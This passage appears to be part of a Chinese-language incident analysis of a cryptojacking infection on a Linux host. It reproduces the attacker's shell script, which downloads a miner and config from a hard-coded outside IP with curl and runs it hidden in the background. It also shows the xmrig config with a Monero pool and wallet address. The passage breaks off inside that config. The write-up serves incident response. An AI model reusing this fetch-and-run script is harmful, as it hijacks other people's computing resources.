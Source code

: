 		fi
		ps -fe|grep -w suppoie |grep -v grep
		if [ $? -eq 0 ]
		then
		pwd
		else
		curl -o /var/tmp/config.json http://192.99.142.235:8220/1.json
		curl -o /var/tmp/suppoie http://192.99.142.235:8220/rig1
		chmod 777 /var/tmp/suppoie
		cd /var/tmp
		proc=`grep -c ^processor /proc/cpuinfo`
		cores=$((($proc+1)/2))
		num=$(($cores*3))
		/sbin/sysctl -w vm.nr_hugepages=`$num`
		nohup ./suppoie -c config.json -t `echo $cores` >/dev/null &
		sleep 3
		fi
		if [ $? -eq 0 ]
		then
		pwd
		else
		curl -o /var/tmp/config.json http://192.99.142.235:8220/1.json
		curl -o /var/tmp/suppoie http://192.99.142.235:8220/rig2
		chmod 777 /var/tmp/suppoie
		cd /var/tmp
		proc=`grep -c ^processor /proc/cpuinfo`
		cores=$((($proc+1)/2))
		num=$(($cores*3))
		/sbin/sysctl -w vm.nr_hugepages=`$num`
		nohup ./suppoie -c config.json -t `echo $cores` >/dev/null &
		fi
		echo "runing....."

	根据以上内容找到 /var/tmp/config.json /var/tmp/suppoie 发现果然是个挖矿rig程序，**可以注意到上面脚本上聪明之处对cpu核心数进行了统计，并且程序启动时指定了使用的核心数，一会儿看到cpu状态的统计图就明白啦**
	
		$ cat /var/tmp/config.json 
		{
		    "algo": "cryptonight",  // cryptonight (default) or cryptonight-lite
		    "av": 0,                // algorithm variation, 0 auto select
		    "background": true,    // true to run the miner in the background
		    "colors": true,         // false to disable colored output    
		    "cpu-affinity": null,   // set process affinity to CPU core(s), mask "0x3" for cores 0 and 1
		    "cpu-priority": null,   // set process priority (0 idle, 2 normal to 5 highest)
		    "donate-level": 1,      // donate level, mininum 1%
		    "log-file": null,       // log all output to a file, example: "c:/some/path/xmrig.log"
		    "max-cpu-usage": 85,    // maximum CPU usage for automatic mode, usually limiting factor is CPU cache not this option.  
		    "print-time": 60,       // print hashrate report every N seconds
		    "retries": 5,           // number of times to retry before switch to backup server
		    "retry-pause": 5,       // time to pause between retries
		    "safe": false,          // true to safe adjust threads and av settings for current CPU
		    "threads": null,        // number of miner threads
		    "pools": [
		        {
		            "url": "stratum+tcp://monerohash.com:5555",   // URL of mining server
		            "user": "41e2vPcVux9NNeTfWe8TLK2UWxCXJvNyCQtNb69YEexdNs711jEaDRXWbwaVe4vUMveKAzAiA4j8xgUi29TpKXpm3zKTUYo",                        // username for mining server
		            "pass": "x",                       // password for mining server
		            "keepalive": true,                 // send keepalived for prevent timeout (need pool support)
		            "nicehash": false                  // enable nicehash/xmrig-proxy support
		        }
		    ],
		    "api": {